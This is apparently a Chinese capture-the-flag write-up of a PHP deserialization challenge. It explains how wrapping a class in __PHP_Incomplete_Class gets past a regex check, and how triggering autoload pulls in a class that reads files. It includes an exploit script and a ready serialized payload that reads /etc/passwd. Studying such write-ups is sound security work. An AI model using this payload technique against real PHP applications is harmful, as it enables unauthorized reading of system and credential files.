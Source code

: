 function.php
```php
<?php
// function.php
function __autoload($classname){
    require_once "./$classname.php";
}
?>
```

myclass.php
```php
<?php
// myclass.php
class Hello{
    public function __destruct()
    {   
		if($this->qwb) echo file_get_contents($this->qwb);
    }
}
?>
```
分析题目的场景:
1. 首先将用户输入进行反序列化
2. 然后将结果再次序列化之后匹配 myclass.
3. function.php 中可以通过类名包含对应的文件. 
4. myclass.php 中存在文件读取函数,可以用于读取 flag.我们可以序列化一个 Hello 对象,在 Hello 反序列化后进行销毁时即可调用 file_get_contents. 但 __destruct 需要在对象销毁时才进行调用,当对象 Hello 还未销毁时即会被 preg_match 匹配,进而抛出异常提前结束.


思路:
1. 将 myclass 包裹在 __PHP_Incomplete_Class 中,这样反序列化时可以成功创建 myclass 类,而二次序列化时,__PHP_Incomplete_Class 序列化字符串中的 myclass 被清除.
2. 另外,由于 Hello 类在 myclass.php 中定义,但 myclass.php 没有被包含进来,所以在构造 payload 时添加一个 myclass 类,触发 function.php 中的 autoload ,进而包含 myclass.php

exp
```php
<?php
// myclass.php
class myclass{
    public $a;
}
class Hello{
    public $qwb = "/etc/passwd";
}
$m = new myclass;
$m->a = new myclass;
$n = new Hello;
$a = array(0=>$m,1=>$n);
var_dump(serialize($a));
// a:2:{i:0;O:7:"myclass":1:{s:1:"a";O:7:"myclass":1:{s:1:"a";N;}}i:1;O:5:"Hello":1:{s:3:"qwb";s:11:"/etc/passwd";}}
```
由于 __PHP_Incomplete_Class 不方便直接构造,所以可以先生成 myclass,然后再改成 __PHP_Incomplete_Class:
```
a:2:{i:0;O:22:"__PHP_Incomplete_Class":1:{s:1:"a";O:7:"myclass":1:{s:1:"a";N;}}i:1;O:5:"Hello":1:{s:3:"qwb";s:11:"/etc/passwd";}}
```
这样就可以通过 __PHP_Incomplete_Class 二次序列化会把其中的内容制空的特性,绕过了 myclass 的检测.
